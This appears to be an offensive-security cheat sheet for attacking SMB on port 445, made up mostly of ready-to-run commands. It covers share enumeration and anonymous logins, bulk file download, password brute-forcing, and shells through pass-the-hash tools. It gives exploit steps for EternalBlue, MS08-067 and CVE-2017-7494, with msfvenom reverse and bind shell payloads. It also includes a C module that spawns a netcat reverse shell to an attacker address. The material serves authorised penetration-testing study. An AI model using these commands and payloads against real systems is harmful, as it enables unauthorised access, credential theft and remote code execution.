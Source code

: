 # SMB - 445

```bash
nbtscan -r 10.10.10.10/24 - Performs a complete network scan using the protocolo Netbios

smbclient -L \\10.10.10.10 - List all shares on the server
smbclient -L \\10.10.10.10 -U Administrator - login with username

#Mounting a share
smbclient //10.10.10.10/_DOCS

#When it comes to old versions of the SMB protocol we should use it this way

smbclient -L \\10.10.10.10 -N --option'client min protocol=NT1'

protocol=NT1 - Sets the minimum version, in this case the NT1 version
```

### Version if nmap didn’t detect it <a href="#version-if-nmap-didnt-detect-it" id="version-if-nmap-didnt-detect-it"></a>

{% code overflow="wrap" %}
```bash
#Sometimes nmap doesn’t show the version of Samba in the remote host, if this happens, a good way to know which version the remote host is running, is to capture traffic with wireshark against the remote host on 445/139 and in parallel run an smbclient -L, do a follow tcp stream and with this we might see which version the server is running.

OR

sudo ngrep -i -d <INTERFACE> 's.?a.?m.?b.?a.*[[:digit:]]' port 139
smbclient -L <IP>
```
{% endcode %}

### Scan for vulnerability <a href="#scan-for-vulnerability" id="scan-for-vulnerability"></a>

```bash
nmap -p139,445 --script "smb-vuln-* and not(smb-vuln-regsvc-dos)" --script-args smb-vuln-cve-2017-7494.check-version,unsafe=1 <IP>
```

If :

* MS17-010 - [EternalBlue](https://liodeus.github.io/2020/09/18/OSCP-personal-cheatsheet.html#EternalBlue%20\(MS17-010\))
* MS08-067 - [MS08-067](https://liodeus.github.io/2020/09/18/OSCP-personal-cheatsheet.html#MS08-067)
* CVE-2017-7494 - [CVE-2017-7494](https://liodeus.github.io/2020/09/18/OSCP-personal-cheatsheet.html#CVE-2017-7494)

### Manual testing <a href="#manual-testing" id="manual-testing"></a>

```bash
smbmap -H <IP>
smbmap -u '' -p '' -H <IP>
smbmap -u 'guest' -p '' -H <IP>
smbmap -u '' -p '' -H <IP> -R

crackmapexec smb <IP>
crackmapexec smb <IP> -u '' -p ''
crackmapexec smb <IP> -u 'guest' -p ''
crackmapexec smb <IP> -u '' -p '' --shares

enum4linux -a <IP>

smbclient --no-pass -L //$IP
smbclient //<IP>/<SHARE>

# Download all files from a directory recursively
smbclient //<IP>/<SHARE> -U <USER> -c "prompt OFF;recurse ON;mget *"
```

### Brute force <a href="#brute-force-4" id="brute-force-4"></a>

```bash
crackmapexec smb <IP> -u <USERS_LIST> -p <PASSWORDS_LIST>
hydra -V -f -L <USERS_LIST> -P <PASSWORDS_LIST> smb://<IP> -u -vV
```

### Mount a SMB share <a href="#mount-a-smb-share" id="mount-a-smb-share"></a>

```bash
mkdir /tmp/share
sudo mount -t cifs //<IP>/<SHARE> /tmp/share
sudo mount -t cifs -o 'username=<USER>,password=<PASSWORD>'//<IP>/<SHARE> /tmp/share

smbclient //<IP>/<SHARE>
smbclient //<IP>/<SHARE> -U <USER>
```

### Get a shell <a href="#get-a-shell" id="get-a-shell"></a>

```bash
psexec.py <DOMAIN>/<USER>:<PASSWORD>@<IP>
psexec.py <DOMAIN>/<USER>@<IP> -hashes :<NTHASH>

wmiexec.py <DOMAIN>/<USER>:<PASSWORD>@<IP>
wmiexec.py <DOMAIN>/<USER>@<IP> -hashes :<NTHASH>

smbexec.py <DOMAIN>/<USER>:<PASSWORD>@<IP>
smbexec.py <DOMAIN>/<USER>@<IP> -hashes :<NTHASH>

atexec.py <DOMAIN>/<USER>:<PASSWORD>@<IP> <COMMAND>
atexec.py <DOMAIN>/<USER>@<IP> -hashes :<NTHASH>
```

### EternalBlue (MS17-010)

```bash
https://github.com/3ndG4me/AutoBlue-MS17-010
```

#### **Check if vulnerable**

```bash
python eternal_checker.py <IP>
```

#### **Prepare shellcodes and listeners**

```bash
cd shellcode
./shell_prep.sh
cd ..
./listener_prep.sh
```

#### **Exploit**

```bash
python eternalblue_exploit<NUMBER>.py <IP> shellcode/sc_all.bin

May need to run it multiple times
```

**If this doesn’t work, try this one**

```bash
python zzz_exploit.py <IP>
```

### MS08-067 <a href="#ms08-067" id="ms08-067"></a>

```bash
# Download exploit code
git clone https://github.com/andyacer/ms08_067.git

# Generate payload
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows
msfvenom -p windows/shell_bind_tcp RHOST=<IP> LPORT=<PORT> EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows

# Modify
Modify ms08_067_2018.py and replace the shellcode variable by the one generated with msfvenom.

# Listener
nc -lvp <PORT>

# Exploit
python ms08_067_2018.py <IP> <NUMBER> 445
```

### CVE-2017-7494 <a href="#cve-2017-7494" id="cve-2017-7494"></a>

```bash
# Download exploit code
git clone https://github.com/joxeankoret/CVE-2017-7494
```

Create a new file named poc.c :

```bash
#include <stdio.h>
#include <stdlib.h>

int samba_init_module(void)
{
	setresuid(0,0,0);
	system("ping -c 3 <IP>");
}
```

```bash
# Build
gcc -o test.so -shared poc.c -fPIC
```

```bash
# Start an ICMP listener
sudo tcpdump -i <INTERFACE> icmp

# Exploit
./cve_2017_7494.py -t <TARGET_IP> -u <USER> -P <PASSWORD> --custom=test.so
```

If you reiceve 3 pings on your listener then the exploit works. Now let’s get a shell :

```bash
#include <stdio.h>
#include <stdlib.h>

int samba_init_module(void)
{
	setresuid(0,0,0);
	system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <IP> <PORT> >/tmp/f");
}
```

```bash
# Build
gcc -o test.so -shared poc.c -fPIC
```

```bash
# Start a listener
nc -lvp <PORT>

# Exploit
./cve_2017_7494.py -t <TARGET_IP> -u <USER> -P <PASSWORD> --custom=test.so
```

\
\
